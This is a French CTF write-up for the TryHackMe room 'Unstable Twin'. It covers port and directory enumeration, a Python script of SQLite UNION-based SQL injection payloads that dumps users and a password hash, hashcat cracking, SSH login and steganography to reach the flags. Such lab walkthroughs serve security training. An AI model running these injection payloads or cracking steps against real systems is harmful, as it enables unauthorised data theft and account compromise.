

# Unstable Twin #

## Task 1 Unstable Twin ##

```bash
sudo sh -c "echo '10.10.149.235 UnstableTwin.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A unstabletwin.thm -p- -Pn 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 14:48 CEST
Nmap scan report for unstabletwin.thm (10.10.149.235)
Host is up (0.032s latency).
rDNS record for 10.10.149.235: UnstableTwin.thm
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   31.95 ms 10.9.0.1
2   32.60 ms UnstableTwin.thm (10.10.149.235)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 250.35 seconds

```

D'après nmap on a plusieurs service qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80. 

   

Sur la page principale du site il y a rien.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://unstabletwin.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/info                 (Status: 200) [Size: 160]
```

Avec gobuster on trouve un lien info.   

 

On va sur le site et on trouve un message qui nous dit qu'il faut des identifiants et que le site n'a pas été testé. 


**What is the build number of Vincent's server?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -v  http://unstabletwin.thm/info
*   Trying 10.10.149.235:80...
* Connected to unstabletwin.thm (10.10.149.235) port 80 (#0)
> GET /info HTTP/1.1
> Host: unstabletwin.thm
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.1
< Date: Mon, 25 Oct 2021 13:17:23 GMT
< Content-Type: application/json
< Content-Length: 160
< Connection: keep-alive
< Build Number: 1.3.4-dev
< Server Name: Vincent
< 
"The login API needs to be called with the username and password form fields fields.  It has not been fully tested yet so may not be full developed and secure"
* Connection #0 to host unstabletwin.thm left intact
tim@kali:~/Bureau/tryhackme/write-up$ curl -v  http://unstabletwin.thm/info
*   Trying 10.10.149.235:80...
* Connected to unstabletwin.thm (10.10.149.235) port 80 (#0)
> GET /info HTTP/1.1
> Host: unstabletwin.thm
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.1
< Date: Mon, 25 Oct 2021 13:17:25 GMT
< Content-Type: application/json
< Content-Length: 148
< Connection: keep-alive
< Build Number: 1.3.6-final
< Server Name: Julias
< 
"The login API needs to be called with the username and password fields.  It has not been fully tested yet so may not be full developed and secure"
* Connection #0 to host unstabletwin.thm left intact


```

Quand on regarde avec curl les entêtes changent on a pas les même version de serveur.
La version du serveur de vincent est : 1.3.4-dev  

**Is this the only build? (Yay/Nay)**

Ce n'est pas la seule version, on a deux version qui sont : 
1.3.4-dev et 1.3.6-final.   

**How many users are there?**    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ffuf -u 'http://unstabletwin.thm/api/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -mc all -fs 233

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://unstabletwin.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 233
________________________________________________

login                   [Status: 405, Size: 178, Words: 20, Lines: 5]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

On remarque un lien login qui existe.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -XPOST 'http://unstabletwin.thm/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
tim@kali:~/Bureau/tryhackme/write-up$ curl -XPOST 'http://unstabletwin.thm/api/login' -d "username=admin&password=admin'"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```

On teste avec des identifiants générique, on nous dit que les identifiants ne sont pas bon.  
On injecte un ' et on a une erreur, dans souvant des cas c'est que c'est possible de faire une injection.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat injection.py 
import requests
url = ' http://unstabletwin.thm/api/login'
ii = [
 "1' UNION SELECT username ,password FROM users order by id-- -",
 "1' UNION SELECT 1,group_concat(password) FROM users order by id-- -",
 "1' UNION select 1,tbl_name from sqlite_master -- -",
 "1' UNION SELECT NULL, sqlite_version(); -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'; -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'; -- -",
 "' UNION SELECT 1,notes FROM notes-- -"]
for i in ii:
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
```

On crée un script python on récupèrer les informations dans la base de données.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python injection.py 
"The username or password passed are not correct."

[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

"The username or password passed are not correct."

[
  [
    1, 
    "Green,Orange,Red,Yellow ,continue..."
  ]
]

"The username or password passed are not correct."

[
  [
    1, 
    "notes"
  ], 
  [
    1, 
    "sqlite_sequence"
  ], 
  [
    1, 
    "users"
  ]
]

"The username or password passed are not correct."

[
  [
    null, 
    "3.26.0"
  ]
]

"The username or password passed are not correct."

[
  [
    null, 
    "CREATE TABLE \"users\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"username\"\tTEXT NOT NULL UNIQUE,\n\t\"password\"\tTEXT NOT NULL UNIQUE,\n\tPRIMARY KEY(\"id\" AUTOINCREMENT)\n)"
  ]
]

"The username or password passed are not correct."

[
  [
    null, 
    "CREATE TABLE \"notes\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"user_id\"\tINTEGER,\n\t\"note_sql\"\tINTEGER,\n\t\"notes\"\tTEXT,\n\tPRIMARY KEY(\"id\")\n)"
  ]
]

"The username or password passed are not correct."

[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4\n"
  ]
]

```

On a les données extraites.  

En tout on compte 5 utilisateurs.   

**What colour is Vincent?**

On voit que la couleur de Vincent est orange.  

**What is Mary Ann's SSH password**  

Dans la base donnée on a un mot de passe en hash qui est : eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti  eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4
SHA-512 [HC: 1700] [JtR: raw-sha512]
SHA3-512 [HC: 17600] [JtR: raw-sha3]
```

Avec haiti on remarque que le hash est du SHA-512   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 1700 -a 0 hash /usr/share/wordlists/rockyou.txt --quiet
eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4:experiment
```

On casse le hash et on trouve le mot de passe.

Le mot de passe ssh de mary ann est : experiment.   

**User Flag**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh mary_ann@unstabletwin.thm
The authenticity of host 'unstabletwin.thm (10.10.149.235)' can't be established.
ECDSA key fingerprint is SHA256:WrxENvyCyn7qV22+7snQxO8tTSOptNI4dnZ764XnDhk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'unstabletwin.thm,10.10.149.235' (ECDSA) to the list of known hosts.
mary_ann@unstabletwin.thm's password: 
Last login: Sun Feb 14 09:56:18 2021 from 192.168.20.38
Hello Mary Ann
[mary_ann@UnstableTwin ~]$ ls
server_notes.txt  user.flag
[mary_ann@UnstableTwin ~]$ cat user.flag
THM{Mary_Ann_notes}
```

On se connecte sur le compte de mary_ann, on trouve le fichier user.flag.  
On lit le fichier user.flag et on a notre flag.  
Le flag est : THM{Mary_Ann_notes}  

**Final Flag**

```bash
[mary_ann@UnstableTwin ~]$ cat server_notes.txt 
Now you have found my notes you now you need to put my extended family together.

We need to GET their IMAGE for the family album.  These can be retrieved by NAME.
```   

On a une note qui nous demande de retrouve les images pour l'album de la famille.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -v http://unstabletwin.thm/get_image\?name\=julias  --output julias.jpg
tim@kali:~/Bureau/tryhackme/write-up$ curl -v http://unstabletwin.thm/get_image\?name\=linda  --output linda.jpg
tim@kali:~/Bureau/tryhackme/write-up$ curl -v http://unstabletwin.thm/get_image\?name\=marnie  --output marnie.jpg
tim@kali:~/Bureau/tryhackme/write-up$ curl -v http://unstabletwin.thm/get_image\?name\=mary_ann  --output mary_ann.jpg
tim@kali:~/Bureau/tryhackme/write-up$ curl -v http://unstabletwin.thm/get_image\?name\=vincent  --output vincent.jpg
```

On récupère toutes les images.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf julias.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "julias.txt".
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf linda.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "linda.txt".
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf marnie.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "marine.txt".
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf mary_ann.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "mary_ann.txt".
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf vincent.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "vincent.txt".
```

On extrait les donées.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat julias.txt 
Red - 1DVsdb2uEE0k5HK4GAIZ
tim@kali:~/Bureau/tryhackme/write-up$ cat linda.txt 
Green - eVYvs6J6HKpZWPG8pfeHoNG1 
tim@kali:~/Bureau/tryhackme/write-up$ cat marine.txt 
Yellow - jKLNAAeCdl2J8BCRuXVX
tim@kali:~/Bureau/tryhackme/write-up$ cat mary_ann.txt 
You need to find all my children and arrange in a rainbow!
tim@kali:~/Bureau/tryhackme/write-up$ cat vincent.txt 
Orange - PS0Mby2jomUKLjvQ4OSw
```

On lit des morceaux d'un hash, le message de mary_ann nous dit des les classer par rapport à un arc en ciel.  

RED    : 1DVsdb2uEE0k5HK4GAIZ
ORANGE : PS0Mby2jomUKLjvQ4OSw
YELLOW : jKLNAAeCdl2J8BCRuXVX
GREEN  : eVYvs6J6HKpZWPG8pfeHoNG1 

Le chaîne est : 1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

  

On décode la chaîne qui est en base62.  

Le flag est : THM{The_Family_Is_Back_Together}